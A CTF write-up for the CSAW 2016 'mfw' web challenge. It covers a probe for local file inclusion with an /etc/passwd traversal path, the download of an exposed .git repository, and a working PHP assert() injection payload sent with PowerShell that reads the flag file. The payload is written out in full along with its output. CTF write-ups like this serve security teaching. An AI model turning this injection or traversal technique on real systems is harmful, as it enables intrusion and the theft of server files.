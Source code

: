 ```yaml
---
title: '[CSAW 2016] mfw Writeup'
author: Megabeets
type: post
date: 2016-09-18T22:02:18+00:00
url: /csaw-2016-mfw-writeup/
categories:
  - CSAW CTF 2016
  - Writeups
tags:
  - CSAW-2016
  - CTF
  - Web

---
```

#### **Description:**

> Hey, I made my first website today. It&#8217;s pretty cool and web7.9.  
> <http://web.chal.csaw.io:8000/>

&nbsp;

Entering the site, the first thing that comes to mind is a LFI attack. The site is including a page which is requested in the URL.

The following table describes the possible respond pages:

<table style="width: 945px;">
  <tr>
    <td style="width: 418.869px;">
      <strong>URL</strong>
    </td>
    
    <td style="width: 484.131px;">
      <strong>Result</strong>
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=home
    </td>
    
    <td style="width: 484.131px;">
      The &#8220;home&#8221; page is shown.
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=about
    </td>
    
    <td style="width: 484.131px;">
      The &#8220;about&#8221; page is shown.
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=contact
    </td>
    
    <td style="width: 484.131px;">
      The &#8220;contact&#8221; page is shown.
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=Megabeets
    </td>
    
    <td style="width: 484.131px;">
      Just a message saying: &#8220;That file doesn&#8217;t exist!&#8221;
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=flag
    </td>
    
    <td style="width: 484.131px;">
      An empty page is shown <strong>inside </strong>the website.
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=../../../../etc/passwd
    </td>
    
    <td style="width: 484.131px;">
      Just a message saying: &#8220;Detected hacking attempt!&#8221;
    </td>
  </tr>
</table>

Looking at the source code i saw the following comment:

```php
&lt;!--&lt;li &gt;&lt;a href="?page=flag"&gt;My secrets&lt;/a&gt;&lt;/li&gt; --&gt;
```


Ok, I need to get the &#8220;flag&#8221; page but any LFI technique I tried didn&#8217;t work. I thought about something else, In the &#8220;about&#8221; page the creator of the site mentioned that it was built using git. So let&#8217;s see if I am able to download the repository. The page http://web.chal.csaw.io:8000/.git/config exists so I downloaded the repository using <a href="https://github.com/kost/dvcs-ripper" target="_blank">DVCS-RIPPER</a>.

You can find index.php [here][1].

So the page is using assert() which is vulnerable to Command Injection attack. After a little trial and error I came up with the answer:

```ps
(Invoke-WebRequest "http://web.chal.csaw.io:8000/?page=Megabeets') || var_dump(file_get_contents('templates/flag.php'));// Comment").Content
```


And received the flag:

```php
string(52) "&lt;?php $FLAG="flag{3vald_@ss3rt_1s_best_a$$ert}"; ?&gt;
"
Detected hacking attempt!
```


If you try entering [the url][2] in a browser, look in the source of the page (CTRL+U), the flag is commented.

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img src="../uploads/megabeets_inline_logo.png" />Eat Veggies</a>
  </p>
</div>

 [1]: https://gist.github.com/ITAYC0HEN/20edf000082b0765b493fb893cec96de
 [2]: http://web.chal.csaw.io:8000/?page=Megabeets') || var_dump(file_get_contents('templates/flag.php'));// Comment the rest of the line